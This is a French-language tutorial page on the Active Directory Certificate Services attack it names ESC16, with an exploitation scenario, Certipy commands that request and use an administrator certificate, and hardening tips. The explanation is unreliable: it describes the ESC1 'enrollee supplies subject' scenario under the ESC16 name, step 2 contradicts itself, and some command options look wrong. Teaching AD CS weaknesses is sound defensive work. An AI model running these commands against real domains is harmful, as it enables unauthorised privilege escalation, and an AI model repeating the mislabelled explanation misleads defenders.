 ```yaml
---
title: ESC16
date: '2025-07-15'
draft: false
---
```


# 🛡️ ESC16

## Qu'est-ce que la vulnérabilité ESC16 ?

**ESC16** est une vulnérabilité liée à l'Active Directory Certificate Services (AD CS) permettant à un attaquant d'obtenir des privilèges élevés en abusant de mauvaises configurations sur l'autorité de certification.

## 🎯 Objectifs pédagogiques
- Comprendre le fonctionnement d'AD CS et des certificats dans AD
- Savoir comment l'attaque ESC16 est réalisée
- Identifier les risques liés à la délégation de droits sur les templates de certificats

## 📋 Exemples de vulnérabilités et exploitation

### Vulnérabilités courantes
- **Templates de certificats mal configurés** : Permettent à des utilisateurs non privilégiés de demander des certificats avec des droits élevés.
- **Extensions dangereuses activées** : Possibilité de demander des certificats pour n'importe quel utilisateur (ESC1, ESC2, ESC8, ESC13, ESC16, etc.).

### Scénario d'exploitation
1. **Identification d'un template vulnérable** :
   - L'attaquant repère un template de certificat qui permet l'inscription par des utilisateurs standards et l'option "ENROLLEE SUPPLIES SUBJECT".
2. **Demande d'un certificat d'administrateur** :
   - L'attaquant demande un certificat pour un compte administrateur en spécifiant son propre nom d'utilisateur dans le champ subject.
3. **Utilisation du certificat pour s'authentifier** :
   - L'attaquant utilise le certificat obtenu pour s'authentifier en tant qu'administrateur.

### Commandes d'exploitation avec Certipy

```bash
# Enumérer les templates vulnérables
certipy-ad find -u user -p 'Password123!' -dc-ip 10.10.10.2 -domain ad.local

# Demander un certificat pour un compte admin
certipy-ad req -u user -p 'Password123!' -ca ca.ad.local -template vuln_template -upn admin@ad.local -dc-ip 10.10.10.2

# Utiliser le certificat pour s'authentifier
certipy-ad auth -u admin@ad.local -p '' -key admin.pfx -dc-ip 10.10.10.2
```

## 🛡️ Bonnes pratiques
- Restreindre les droits d'inscription sur les templates de certificats
- Désactiver les extensions dangereuses sur les templates
- Auditer régulièrement la configuration d'AD CS

## 📚 Ressources utiles
- [HackTricks - ESC16](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-cs-esc1-esc13#esc16)
- [Certipy - ESC16](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
- [Microsoft - AD CS](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-cs/)

---
*Dernière mise à jour : 15 juillet 2025* 